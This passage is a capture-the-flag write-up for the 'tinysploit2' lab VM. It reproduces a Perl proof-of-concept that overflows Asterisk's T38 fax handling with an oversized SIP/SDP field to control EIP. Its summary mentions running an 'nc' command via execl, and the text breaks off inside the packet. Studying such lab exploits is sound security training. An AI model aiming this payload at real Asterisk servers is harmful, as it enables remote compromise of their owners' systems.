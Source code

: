 # sipcrash

In the Exploitlab at Blackhat Las Vegas 2016, the attendands were given a VM with the name
tinysploit2, which we can use to improve our exploiting skills. There are
three flags. The first one we solved in the course. This is the solution to the
second flag, a memory corruption vulnerability in asterisk.

The FLAG1.TXT contained a fully working PoC, which already yield in EIP=0x41414141 in asterisk,
so i thought this would be a quick one to solve. At the end I needed like 10-20
hours. As I was in holidays in Italy, I barely had Internet access, which was
another complication. Greetz to my GF who was patient with me all this time ;-)

This writeup is based on my notes, and may be not as clearly written as possible.

## TL;DR

Buffer overflow on asterisk on tinysploit2, 32bit VM, no PIE. Used `execl` by
writing `nc` command line to a page filled with nulls.


## Preconditions

PoC which was given from /home/xhttpd/FLAG1.TXT:

```
#!/usr/bin/perl
# Remote Buffer Overflow in Asterisk T38 fax
# The Exploit Laboratory - TINYSPLOIT2

use IO::Socket;

if(not $ARGV[0]) {
   print "Usage: sipcrash.pl <host>\n";
   exit;
}

my $target=$ARGV[0];
my $target_port = 5060;

my $eip = 0x42424242;
my $padding = "A" x 556;

my $buf = $padding . pack("V", $eip);

my $sip_packet = "v=0\n";
$sip_packet .= "o=rtp 1160124458839569000 160124458839569000 IN IP4 127.0.0.1\n";
$sip_packet .= "s=-\n";
$sip_packet .= "c=IN IP4 127.0.0.1\n";
$sip_packet .= "t=0 0\n";
$sip_packet .= "m=image 5004 UDPTL t38\n";
$sip_packet .= "a=T38FaxVersion:0\n";
$sip_packet .= "a=T38MaxBitRate:14400\n";
$sip_packet .= "a=T38FaxMaxBuffer:1024\n";
$sip_packet .= "a=T38FaxMaxDatagram:238\n";
$sip_packet .= "a=T38FaxRateManagement:$buf\n";
$sip_packet .= "a=T38FaxUdpEC:t38UDPRedundancy\n";

$sip_length = length($sip_packet);

my $packet =<<END;
INVITE sip:200\@127.0.0.1 SIP/2.0
CSeq: 1 INVITE
Via: SIP/2.0/UDP 127.0.0.1:1024
From: "Prank Caller" <sip:prank\@127.0.0.1:1024>
```
